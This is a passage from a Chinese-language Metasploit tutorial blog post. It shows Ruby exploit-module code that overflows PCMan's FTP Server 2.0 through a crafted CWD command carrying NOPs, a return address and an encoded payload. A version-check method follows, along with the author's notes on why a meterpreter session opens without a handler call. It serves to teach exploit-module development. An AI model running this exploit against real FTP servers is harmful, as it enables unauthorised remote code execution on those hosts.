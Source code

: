```ruby
					   ],
			'Payload'       => {
						'Space'    => 1000,
						'BadChars' => "\x20\x0a\x0d\x00\xff\x40",
						},
			'DefaultOptions' =>
				{
					'EXITFUNC' => 'process',
					'VERBOSE' => true
				},
			'DisclosureDate' => 'Jan 29 2014'
		))
		register_options(
		[
			Opt::RPORT(21),
			OptString.new('FTPPASS', [true, 'FTP Password', 'anonymous'])
		], self.class)
	end 

	def exploit
		c = connect_login
		return unless c
		buf = make_nops(target['Offset'])
		buf = buf + [target['Ret']].pack('V') + make_nops(10) + payload.encoded
		send_cmd(["CWD " + buf, false])
		disconnect
	end  
end
```

可以发现，核心库的ftp模块帮我们做了很多事情。如果在编写模块时不知道ftp模块能提供什么，可以直接去读它的源码。

我有一个问题：本次的exploit函数最后没有`handler`。之前在[MasterMsf 3 渗透模块开发](https://wohin.me/metasploit/2018/10/21/masterMsf-chp3.html)中我们提到handler是把连接交给payload，去检查是否渗透成功并建立了新链接。那么这里为什么没有这个操作，却还能获得一个meterpreter？（谁去尝试连接payload监听的4444端口？）

后来我把之前的模块中的`handler`注释掉，发现依然能够获得shell。另外看了Msf自带的exploit模块，似乎也没有handler。这说明，至少在当前版本下的Msf中，`handler`不是必要的了，或者说它真的就只是检查的功能。整个`exploit`命令应该负责了payload的连接。这部分等将来读Metasploit源代码时再研究。

测试：

![Bildschirmfoto 2018-10-27 um 4.22.47 PM.png]({{ site.url }}/images/metasploit/E3DBC5ACAA461B537B12BCDA3869325F.png)

### 为模块添加check方法

顾名思义，check就是检查目标系统是否存在我们指定的漏洞。最常用的方法是检查目标程序的版本，而检查版本其实就是写一个`ftp_version`的辅助扫描模块，只不过是封装在名为`check`的函数里，放在exploit模块中。代码如下：

```ruby
    def check
        c = connect_login
        disconnect
        if c and banner =~ /220 PCMan's FTP Server 2\.0/
            vprint_status("Able to authenticate, and banner shows the vulnerable version")
            return Exploit::CheckCode::Appears
        elsif (not c) and banner =~ /220 PCMan's FTP Server 2\.0/
            vprint_status("Unable to authenticate, but banner shows the vulnerable version")
            return Exploit::CheckCode::Appears
        end
        return Exploit::CheckCode::Safe
    end
```
